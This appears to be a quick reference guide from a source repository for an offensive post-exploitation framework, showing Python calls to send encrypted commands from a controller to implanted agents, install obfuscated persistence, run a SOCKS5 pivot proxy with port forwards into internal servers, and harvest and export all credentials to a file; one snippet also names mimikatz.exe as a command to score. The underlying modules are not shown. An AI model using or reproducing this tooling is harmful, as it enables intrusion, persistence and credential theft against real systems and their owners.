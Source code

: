 # Quick Reference Guide - Advanced Features

## 🚀 One-Command Usage

### AI Threat Detection
```python
from advanced_ai_detection import analyze_action

# Analyze any agent action
result = analyze_action('agent_001', {
    'type': 'command',
    'command': 'mimikatz.exe',
    'privilege': 'admin'
})

print(f"Risk: {result['risk_score']}/100 - {result['threat_level']}")
```

### Encrypted Communication
```python
from advanced_crypto_channel import AdvancedCryptoChannel

# Controller setup
crypto = AdvancedCryptoChannel(role='controller')
encrypted = crypto.encrypt_message("whoami", 'agent_001')
```

### Persistence Deployment
```python
from advanced_persistence import AdvancedPersistenceManager

# Deploy all persistence methods
manager = AdvancedPersistenceManager(obfuscate=True)
results = manager.install_all_methods()
print(f"Installed {results['successful_count']} methods")
```

### Network Pivoting
```python
from advanced_network_pivoting import AdvancedNetworkPivot

# Start SOCKS5 proxy
pivot = AdvancedNetworkPivot(bind_port=1080)
pivot.start_socks_proxy()

# Add port forward
pivot.add_port_forward(8080, 'internal.server', 80)
```

### Credential Harvesting
```python
from advanced_credential_harvester import AdvancedCredentialHarvester

# Harvest all credentials
harvester = AdvancedCredentialHarvester()
results = harvester.harvest_all()
harvester.export_credentials('creds.json')
```
